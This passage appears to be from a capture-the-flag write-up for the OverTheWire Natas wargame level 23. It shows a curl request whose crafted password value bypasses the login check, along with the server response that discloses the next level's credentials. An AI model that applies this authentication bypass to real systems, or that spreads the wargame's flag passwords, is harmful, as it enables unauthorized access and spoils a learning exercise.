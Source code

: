 ```
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://natas23.natas.labs.overthewire.org/ \
     -d "passwd=11iloveyou" \
     --user natas23:dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas23", "pass": "dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs" };</script></head>
<body>
<h1>natas23</h1>
<div id="content">

Password:
<form name="input" method="get">
    <input type="text" name="passwd" size=20>
    <input type="submit" value="Login">
</form>

<br>The credentials for the next level are:<br><pre>Username: natas24 Password: MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd</pre>  
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

![alt text](./kuvat-level22-28/natas23-2.png)
